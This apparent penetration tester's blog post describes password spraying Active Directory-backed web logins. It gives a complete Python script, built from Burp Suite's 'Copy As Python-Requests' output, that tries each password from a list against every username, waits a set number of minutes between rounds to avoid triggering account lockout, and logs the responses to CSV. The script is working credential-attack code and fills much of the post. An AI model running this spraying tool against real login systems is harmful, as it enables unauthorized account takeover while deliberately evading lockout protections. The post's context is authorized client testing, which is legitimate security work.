 ```yaml
---
published: true
comments: true
---
```

I frequently use the Intruder tab in Burp Suite Pro to password spray websites which use Active Directory authentication. One of the problems of using Burp Suite is that there doesn't seem to be a way to avoid lockout when using a long password list. Frequently I don't get a hit on valid password on the first try with Season/Year stuff like "Winter2018!" and need to run through a list of 51 common AD passwords that I have in a file. Sure, I can paste in a list of three or four passwords (depending on my client's lockout policy), but then I have to wait X minutes and then replace those passwords with three of four more, track the time between password spray runs, etc. That's a manual process, and I'd prefer something that I can setup and just let it run to completion.

This process is going to require the Pro version of Burp Suite because you'll need to install an extension from the BApp store. In Burp Suite, install the "Copy As Python-Requests" extension. Next, proxy an authentication request to the website through Burp with Intercept on, and when it pauses on the request, right click and choose "Copy as requests". If you paste the clipboard to your editor you'll notice that each line starts with "burp0".

In the following code, you'll notice where I have placed those "burp0" lines. Paste them in to your code editor at the bottom, the cut/paste each line over the related line in this script. In the line that begins with "burp0_data", you'll need to replace the user name and password that you entered on the web page with "username" and "password" as shown below.

Once you've updated the script with your data copied using the "Copy As Python-Requests" extension, run it using the parameters shown in the usage variable. Although the script outputs to CSV which can be sorted based on content length (sort -k4 -n -t, output.csv) or opened and sorted with Gnumeric or Excel, an easier way to sort the response headers may be to proxy the requests through Burp Suite and sort them there. An easy way to proxy through Burp without having to modify the script is to set an environmental variable: export HTTPS_PROXY=“http://127.0.0.1:8080”

The script also prints timestamps to the screen which is useful for those times that you get blamed for locking out users. I believe in logging everything, and this has saved my reputation more than once when I was blamed for account lockouts which ended up being caused by something in the client's environment.

```python
import requests
import sys
import time
from datetime import datetime

usage = "usage: python3 passwordSpray.py [/path/to/usernames.file] [/path/to/passwords.file] [minutes between each password loop] [output filename (csv)]"
if len(sys.argv) != 5:
    sys.exit(usage)
usernames = [line.rstrip('\n') for line in open(sys.argv[1])]
passwords = [line.rstrip('\n') for line in open(sys.argv[2])]
sleep_time = int(sys.argv[3]) * 60
report_header = "Username,Password,ResponseCode,ResponseLength,Redirects\n"
with open(sys.argv[4], 'w') as csvfile:
    csvfile.write(report_header)

burp0_url = "https://[redacted]:443/j_security_check"
burp0_cookies = {"redacted"}
burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Accept-Encoding": "gzip, deflate", "Referer": "https://[redacted]/j_security_check", "Content-Type": "application/x-www-form-urlencoded", "Connection": "close", "Upgrade-Insecure-Requests": "1"}

for password in passwords:
    report_output = []
    for username in usernames:
        burp0_data={"j_username": username, "j_password": password, "browserLocale": "en_us", "domainName": "trust", "AUTHRULE_NAME": "ADAuthenticator", "buildNum": "100310", "clearCacheBuildNum": "100148"}
        request = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)
        report_output.append(f'{username},{password},{request.status_code},{len(request.content)},{len(request.history)}')
    with open(sys.argv[4], 'a', newline='') as csvfile:
        csvfile.write('\n'.join(report_output))
    print("Completed spraying with password: {}. Time: {}".format(password, datetime.now().time()))
    print("Sleeping for {} minutes".format(sys.argv[3]))
    time.sleep(sleep_time)
```
